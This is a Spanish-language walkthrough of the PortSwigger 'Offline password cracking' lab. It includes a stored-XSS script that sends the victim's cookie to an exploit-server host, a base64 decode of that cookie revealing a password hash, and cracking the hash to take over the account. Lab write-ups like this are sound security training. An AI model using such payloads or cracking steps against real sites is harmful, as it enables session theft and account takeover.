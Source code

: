 ```yaml
---
title: "Offline password cracking"
description: "Laboratorio de Portswigger sobre Authentication"
date: 2025-01-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Authentication
tags:
  - Authentication
  - Offline password cracking
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Este `laboratorio` almacena el `hash de la contraseña` del usuario en una `cookie`. Además, contiene una `vulnerabilidad de XSS` en la `funcionalidad de comentarios`. Para `resolver` el `laboratorio`, debemos `obtener la cookie stay-logged-in` de `Carlos` mediante `XSS`, `crackear su hash de contraseña` y luego `iniciar sesión` como `carlos`. Finalmente, debemos `eliminar su cuenta` desde la página `Mi cuenta`. Podemos usar nuestras credenciales `wiener:peter` para iniciar sesión, el `nombre de usuario` de la `víctima` es `carlos` y podemos usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) para `crackear` la `contraseña`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Authentication-Lab-10/image_1.png)

Pulsamos sobre `My account`, nos `logueamos` usando las credenciales `wiener:peter` y marcamos la casilla de `Stay logged in`

![](/assets/img/Authentication-Lab-10/image_2.png)

Pulsamos en `View post` y vemos que hay una `sección` de `comentarios`

![](/assets/img/Authentication-Lab-10/image_3.png)

Vemos que hemos podido `inyectar código HTML`

![](/assets/img/Authentication-Lab-10/image_4.png)

Si vemos el `código fuente` nos damos cuenta que el código insertado en la `sección` de `comentarios` no se está `HTML encodeando` 

![](/assets/img/Authentication-Lab-10/image_5.png)

Nos dirigimos al `Exploit server` y copiamos la url `https://exploit-0a6800e703d4999e8022985501aa002c.exploit-server.net/exploit`, posteriormente vamos a publicar un comentario para `explotar` un `stored XSS` y así `obtener` la `cookie` del `usuario víctima`

```
<script>document.location='https://exploit-0a6800e703d4999e8022985501aa002c.exploit-server.net/exploit/'+document.cookie</script>
```

![](/assets/img/Authentication-Lab-10/image_6.png)

Una vez publicado nos dirigimos al `Exploit server` y abrimos el apartado de `logs` y vemos este `log`

![](/assets/img/Authentication-Lab-10/image_7.png)

Si `decodeamos` este `parámetro` de la cookie `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz` obtener el `nombre` de `usuario` y la `contraseña` del usuario `hasheada`

```
# echo 'Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz' | base64 -d  
carlos:26323c16d5f4dabff3bb136f2460a943 
```

Además de `crackear` la `contraseña` con `john` o `hashcat` podemos usar `rainbow tables` para `obtener` la `contraseña`, existen varias web que podemos usar como [https://crackstation.net/](https://crackstation.net/)

![](/assets/img/Authentication-Lab-10/image_8.png)

También podríamos `pegar` el `hash` en el `navegador` y `obtener` el `contenido` del `hash` de esta forma

![](/assets/img/Authentication-Lab-10/image_9.png)

Una vez tenemos el `usuario` y la `contraseña` ya podemos acceder `iniciar sesión` con las credenciales `carlos:onceuponatime` y `borrar` al `usuario carlos`

![](/assets/img/Authentication-Lab-10/image_10.png)

![](/assets/img/Authentication-Lab-10/image_11.png)

![](/assets/img/Authentication-Lab-10/image_12.png)
